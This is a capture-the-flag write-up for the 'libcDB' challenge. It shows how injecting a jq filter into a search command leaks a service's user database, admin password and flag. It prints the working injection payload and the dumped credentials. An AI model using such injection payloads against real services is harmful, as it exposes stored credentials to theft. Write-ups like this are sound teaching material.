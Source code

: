 ### libcDB - 14 solves

Description:
```
pwning challenges without given libc can be a hussle
i made a libcDB as a service that can help resolve the libc version by symbols and their addresses
i havn't added all libc's yet, but thats enough to test it out

nc libcdb.3k.ctf.to 7777

* test account { Dead:pool }
```

When connecting to the provided address, we are given a login prompt and we can enter the credentials from the description resulting in the following prompt:

```
Authenticated {"users":{"username":"Dead","password":"pool"}}

 __    _ _       ____  _____
|  |  |_| |_ ___|    \| __  |
|  |__| | . |  _|  |  | __ -|
|_____|_|___|___|____/|_____|
                         as a service


Type .help for help



>
```

Notice the JSON at the beginning, I tried adding my own JSON, but it only allowed alphanumeric login and password.

`.help` gives us a few options to choose from:
```
.help                   Print this help
.version                Print versions
.search                 Search libcdb
.secret                 Print flag
```

Sadly, we cannot get the flag instantly by just executing the .secret command. And instead returns:
```
not admin
no flag for u
```
The `.version` command gives us some information about what libc's are added to the database:
```
"ubuntu_libc6-dbg_2.4-1ubuntu12.3_amd64"
"ubuntu_libc6-dbg_2.4-1ubuntu12_amd64"
"ubuntu_libc6-i386_2.10.1-0ubuntu15_amd64"
```


The last feature, `.search` is more of interest and has the following pattern: `.search <*symbol> <*addr> <filter>`.  
An example search is `.search fprintf 0x4b970` which gives us some nice information about the `fprintf` function:

```
> .search fprintf 0x4b970
Found:
        id              6acfaae0398dce58e1857599a274f6d8
        name            ubuntu_libc6-dbg_2.4-1ubuntu12.3_amd64
        symbol          fprintf
        address         0x4b970
Found:
        id              fc1e12693e5762252bc44256d5a72506
        name            ubuntu_libc6-dbg_2.4-1ubuntu12_amd64
        symbol          fprintf
        address         0x4b970
```

However, there is another paramater: `<filter>` and when adding a non-alphanumeric character we get an error:
```
> .search fprintf 0x4b970 "
jq: error: syntax error, unexpected $end, expecting QQSTRING_TEXT or QQSTRING_INTERP_START or QQSTRING_END (Unix shell quoting issues?) at <top-level>, line 1:
. as $maindb | .libcDB[] | select(.symbol=="fprintf") | select(.address|contains("309616")) | ."
jq: error: try .["field"] instead of .field for unusually named fields at <top-level>, line 1:
. as $maindb | .libcDB[] | select(.symbol=="fprintf") | select(.address|contains("309616")) | ."
jq: 2 compile errors
```

This gives us some more information about the application and that it uses `jq`, additionaly we get the complete query.   
After reading a bit about `jq` we can construct our own query.  
By just guessing that the object where the users are stored are in the same `$maindb` (Thanks to the JSON we got when logging in), we can create a query like this: `,{name:.[]|$maindb.users|tostring}` and leak the complete users `db`.  
(Additionally, we could leak the complete db with `,{name:.[]|$maindb|tostring}`, but it's huge).  
Final Payload: `.search fprintf 0x4b970 ,{name:.[]|$maindb.users|tostring}`. Resulting into the users object:
```json
[
    {
        "username": "3k",
        "password": "notaflag"
    },
    {
        "username": "James",
        "password": "Hetfield"
    },
    {
        "username": "Lars",
        "password": "Ulrich"
    },
    {
        "username": "Dead",
        "password": "pool"
    },
    {
        "username": "admin",
        "password": "v3ryL0ngPwC4nTgu3SS0xfff"
    },
    {
        "username": "jim",
        "password": "carrey"
    }
]
```
And so logging in with `admin:v3ryL0ngPwC4nTgu3SS0xfff`   we get the flag by the `.secret` command: `3k{jq_is_r3ally_HelpFULL_3af4bcd97f5}`